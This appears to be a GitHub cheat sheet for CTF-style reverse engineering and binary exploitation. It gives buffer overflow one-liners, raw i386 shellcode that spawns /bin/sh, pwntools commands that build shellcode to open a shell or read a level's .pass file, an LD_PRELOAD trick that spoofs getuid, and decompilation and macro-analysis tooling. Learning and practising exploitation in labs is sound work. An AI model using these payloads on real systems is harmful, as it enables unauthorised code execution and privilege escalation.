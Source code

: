 <img width="300px" height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only" />
<img width="300px" height="100px" src="https://user-images.githubusercontent.com/28403617/172731902-a0475209-6730-4a90-996f-f7688d49506e.svg#gh-dark-mode-only" />

---

- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

## Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

## Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

## Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

## Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

## Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
